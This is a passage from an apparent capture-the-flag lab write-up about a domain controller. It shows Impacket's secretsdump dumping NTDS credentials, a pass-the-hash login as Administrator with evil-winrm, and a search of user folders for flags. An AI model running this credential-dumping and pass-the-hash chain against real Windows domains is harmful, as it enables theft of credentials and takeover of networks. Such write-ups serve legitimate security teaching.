 Result: 0

Exploit complete!
{{< /highlight >}}

:)

Let's try to log in using WinRM and the PTH technique, but first; we need a hash, let's obtain them.

{{< highlight bash >}}
$ secretsdump.py -no-pass -just-dc GEOHOME-DC\$@192.168.1.145
{{< /highlight >}}


{{< highlight bash >}}
Impacket v0.10.1.dev1+20220513.140233.fb1e50c1 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:84a131ab8d386e13ab59b91fece79b2c:::
...
{{< /highlight >}}

We have the hash: <code>84a131ab8d386e13ab59b91fece79b2c</code>


Let's use Evil-WinRM:

{{< highlight bash >}}
$ evil-winrm -i 192.168.1.145 -u Administrator -H 84a131ab8d386e13ab59b91fece79b2c
{{< /highlight >}}

{{< highlight bash >}}
Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>
{{< /highlight >}}

:)


Navigate back to C:\Users and "grep" for strings

{{< highlight bash >}}
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\..\
*Evil-WinRM* PS C:\Users> dir -Recurse | Select-String -pattern "FLAG{"


eescalera\Desktop\eescalera_flag.txt:1:FLAG{Mas_uno_por_revisar_sistema}
jenriques\Desktop\jenriques_flag.txt:1:FLAG{Buen_Password_Spraying_Eh?}
pcasimiro\Desktop\pscasimiro_flag.txt:1:FLAG{Pesadilla_en_el_trabajo}
sguerrero\Desktop\sguerrero_flag.txt:1:FLAG{Ay_Ay_Vigila_Tu_Puesto}
svc-spooler\Desktop\svc-spooler_flag.txt:1:FLAG{A_su_servicio}
{{< /highlight >}}


Bingo: <code>FLAG{Mas_uno_por_revisar_sistema}, FLAG{Buen_Password_Spraying_Eh?}, FLAG{Pesadilla_en_el_trabajo}, FLAG{Ay_Ay_Vigila_Tu_Puesto}, FLAG{A_su_servicio}</code>


[EmailTo]: eescalera@geohome.com
[EmailFrom]: ffuertes@geohome.com
[Subject]: Instagram